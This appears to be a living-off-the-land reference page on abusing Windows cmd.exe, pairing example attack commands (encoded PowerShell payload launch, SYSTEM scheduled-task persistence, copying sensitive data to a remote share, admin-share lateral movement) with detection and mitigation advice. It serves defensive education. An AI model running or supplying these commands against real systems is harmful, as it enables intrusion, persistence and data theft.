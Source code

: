 # cmd.exe
## What is it?
*```cmd.exe``` (Command Prompt) is a **built-in Windows command-line interpreter** that allows users to execute commands and run batch scripts.*
*It is used for file management, system configuration, network diagnostics, and many other administrative tasks. As a core component of the Windows operating system, it is widely trusted and often overlooked by security tools.*

## Legitimate Usage
- **System Management** → Execute administrative tasks such as file manipulation, system settings, and network configurations.
- **Script Execution** → Run batch files (.bat) or command scripts to automate routine tasks.
- **Network Diagnostics** → Use commands like ```ping```, ```ipconfig```, and ```netstat``` for troubleshooting network issues.
- **File Management** → Copy, move, delete, and manipulate files and directories.

## How to abuse it
- **Bypass Security Controls** → As a trusted utility, ```cmd.exe``` is often used by attackers to bypass security controls or execute malicious commands without triggering alerts.
- **Privilege Escalation** → Attackers can use ```cmd.exe``` to escalate privileges, modify user rights, or invoke other system tools to gain elevated access.
- **Persistence** → ```cmd.exe``` can be used to create scripts that persist across reboots or run at startup, maintaining access to compromised systems.
- **Data Exfiltration** → Attackers can use ```cmd.exe``` to move sensitive data off the system via file transfers, or by creating network shares for unauthorized data movement.
- **Command and Control (C2) Communication** → Attackers can use ```cmd.exe``` to interact with their C2 servers through network protocols, exfiltrating data or receiving commands.

## Example attacks
### 1. Running Malicious Commands
*Attackers can use ```cmd.exe``` to run malicious commands or execute scripts on the target system.*
**Execute Malicious Payload**

```
cmd.exe /c powershell -encodedcommand <encoded_payload>
```

**Effect:**
- Executes a PowerShell command or malicious payload silently, bypassing some detection systems.

### 2. Bypassing Security Controls with cmd.exe
*Since ```cmd.exe``` is trusted, attackers can use it to bypass security restrictions and launch other malicious tools or payloads.*
**Launch Malicious Executable from a Trusted Location**

```
cmd.exe /c C:\Windows\System32\trusted.exe
```

**Effect:**
- Executes a malicious program from a trusted location, avoiding detection by security tools.

### 3. Persistence via Scheduled Tasks
*Attackers can use ```cmd.exe``` to create scheduled tasks that persist even after system reboots.*
**Create a Scheduled Task to Run Malicious Command**

```
schtasks /create /tn "MaliciousTask" /tr "cmd.exe /c C:\malicious\payload.bat" /sc onlogon /ru SYSTEM
```

**Effect:**
- Runs a malicious command every time the user logs on, ensuring persistence across reboots.

### 4. Data Exfiltration via cmd.exe
*Attackers can use ```cmd.exe``` to exfiltrate data from the compromised system.*
**Move Sensitive Data to Remote Server**

```
cmd.exe /c copy C:\SensitiveData*.* \192.168.1.100\share
```

**Effect:**
- Copies sensitive data to a remote network share, exfiltrating it to the attacker's server.

### 5. Lateral Movement Using cmd.exe
*Attackers can use ```cmd.exe``` to interact with other systems on the network, exploiting the trust of the command line.*
**Use cmd.exe to Access Remote System via SMB**

```
cmd.exe /c net use \192.168.1.50\C$ /user:admin password
```

**Effect:**
- Connects to a remote system's admin share to move files or execute commands on the remote machine.

# Detection & Mitigation
## Detection Methods
**Monitor cmd.exe Execution**
- **Event ID 4688 (New Process Creation)** → Detect the execution of ```cmd.exe```, especially if it is invoked with unusual parameters or from suspicious locations.
- **Monitor for Unusual Commands** → Look for signs of suspicious commands or use of ```cmd.exe``` in combination with other tools to exploit system weaknesses.

**File Integrity Monitoring**
- **Check for Malicious Scripts** → Ensure that any scripts executed by ```cmd.exe``` are not unauthorized or malicious.

**Monitor Network Connections**
- **Event ID 5156 (Windows Filtering Platform)** → Look for suspicious outbound connections initiated via ```cmd.exe```, especially to external IPs or unknown C2 servers.

## Mitigation Strategies
- **Application Control** → Use application whitelisting or security policies to restrict the execution of ```cmd.exe``` and other command-line tools to trusted users.
- **User Privileges** → Limit the use of ```cmd.exe``` by non-administrative users to prevent unauthorized system modifications.
- **Monitor Scheduled Tasks** → Regularly audit scheduled tasks to detect unauthorized commands running on system startup or logon.
- **Use EDR Solutions** → Employ endpoint detection and response (EDR) tools that can detect suspicious command-line activity or tools used for lateral movement.
